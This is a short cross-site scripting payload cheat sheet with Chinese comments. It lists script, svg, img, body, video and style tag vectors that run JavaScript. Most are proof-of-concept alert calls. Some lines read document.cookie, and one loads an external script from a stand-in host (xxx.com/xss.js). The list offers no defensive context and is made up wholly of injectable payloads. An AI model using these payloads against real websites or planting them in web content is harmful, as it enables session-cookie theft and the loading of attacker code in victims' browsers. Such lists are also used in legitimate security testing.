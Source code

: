 

```
<script>alert("hack")</script>   #弹出hack      
<script>alert(/hack/)</script>   #弹出hack      
<script>alert(1)</script>        #弹出1，对于数字可以不用引号      
<script>alert(document.cookie)</script>      #弹出cookie      
<script src=http://xxx.com/xss.js></script>  #引用外部的xss
```




**svg标签** 



```
<svg onload=alert(1)>      
<svg onload=alert(1)//
```




**<img>标签**：



```
<img  src=1  onerror=alert("hack")>      
<img  src=1  onerror=alert(document.cookie)>  #弹出cookie
```




 **<body>标签**：



```
<body onload=alert(1)>      
<body onpageshow=alert(1)>
```




**video标签:**



```
<video onloadstart=alert(1) src="/media/hack-the-planet.mp4" />
```




**style标签：**



```
<style onload=alert(1)></style>
```



